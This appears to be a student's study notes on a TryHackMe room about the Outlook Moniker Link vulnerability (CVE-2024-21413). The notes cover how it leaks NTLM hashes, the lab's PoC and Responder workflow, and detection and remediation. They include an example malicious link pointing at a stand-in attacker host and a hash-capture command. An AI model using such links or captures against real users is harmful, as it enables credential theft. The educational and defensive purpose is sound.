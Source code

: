 # Room: Moniker Link (CVE-2024-21413) (TryHackMe)

**Date:** 6 Oct 2025  
**Path:** Cyber Security 101  
**Goal:** Understand the Moniker Link vulnerability (CVE-2024-21413) that bypasses Outlook's Protected View to leak user NTLM credentials, and learn exploitation, detection and remediation steps.

## 1. Key Concepts Learned

* **Vulnerability overview**:

  * CVE-2024-21413 (Moniker Link) allows an attacker to craft a specially formatted `file://` Moniker Link that bypasses Outlook's "Protected View" and causes the client to attempt to authenticate to an attacker-controlled SMB server, leaking the user's **netNTLMv2** hash.  
  * The attack was disclosed on February 13, 2024 and credited to Haifei Li of Check Point Research.  
  * A Moniker Link with a `!` character and additional text (e.g., `file://ATTACKER_IP/test!exploit`) is used to bypass Protected View. (TryHackMe walkthrough and PoC).

* **How the exploit works**:

  * Outlook renders HTML emails and supports Moniker Links (links that can invoke external applications or file resources).  
  * Normally Protected View blocks attempts to launch external applications or access network resources. The crafted Moniker Link variant circumvents this protection, forcing Windows to attempt SMB authentication to the attacker machine.  
  * The victim’s system will send NTLM authentication (netNTLMv2 hash) to the SMB listener even if the share does not exist — the authentication attempt is sufficient to capture the hash.  
  * While RCE via Moniker Link is discussed conceptually (COM/Component Object Model involvement), the room focuses on credential leakage and there was no public PoC for RCE in the room materials.

* **Proof of concept & tooling**:

  * The room includes a Python PoC that assembles an HTML email containing the malicious Moniker Link and sends it through an SMTP server to the victim mailbox.  
  * The attack lab demonstrates using **Responder** (or Impacket SMB listener) on the attacker's machine to capture the netNTLMv2 hash when the victim clicks the link.  

## 2. Commands / Tools Practiced

* Sending the exploit email (Python PoC from the room): create `exploit.py`, modify attacker/victim/MACHINE_IP values, then run `python3 exploit.py` to deliver the HTML email.  
* Start an SMB/LLMNR/NetBIOS listener (Responder): `responder -I <interface>` to capture authentication attempts.  
* Inspect captured hashes in Responder output (netNTLMv2).  
* (Optional) Use `impacket-smbserver` or other SMB services to emulate shares for testing.  
* Review YARA detection rule samples and use file inspection to spot suspicious `file:\` Moniker Link patterns in emails.

## 3. Takeaways

* Moniker Links can invoke OS components (COM) and are capable of triggering network authentication flows from email clients.  
* A simple crafted link (the `!` trick) was enough to bypass Outlook's Protected View and trigger SMB authentication, leaking credentials.  
* Captured netNTLMv2 hashes can be used offline by attackers to attempt cracking or relay attacks, depending on the environment.  
* Detection is possible using YARA rules searching for suspicious `file:\` patterns in email content and monitoring for unexpected SMB authentication attempts from client hosts.

## 4. Detection & Remediation

* **Detection**:

  * Deploy YARA rules to scan incoming email bodies for `file://` or `file:\` Moniker Link patterns (example rules exist in public repos).  
  * Monitor authentication logs and network flows for unexpected outbound SMB/NTLM auth attempts from client machines.  
  * Use endpoint telemetry and EDR alerts for processes (Outlook) initiating unexpected network connections.

* **Remediation**:

  * Apply Microsoft updates and patches listed in the MSRC advisory for CVE-2024-21413 as soon as possible.  
  * Consider blocking outbound SMB (ports 445/139) from client networks to the Internet.  
  * Harden mail gateway/email filtering to strip or sandbox suspicious HTML content and links.  
  * Educate users to avoid clicking unexpected links and to report suspicious emails.

## 5. Next Steps

* Practice the lab in the TryHackMe room (deploy the vulnerable VM and AttackBox) to see the full exploit flow in a safe environment.  
* Study netNTLMv2 cracking and relay defenses (SMB signing, disabling NTLM where possible).  
* Review Microsoft advisories and vendor-provided detection signatures for enterprise deployment.
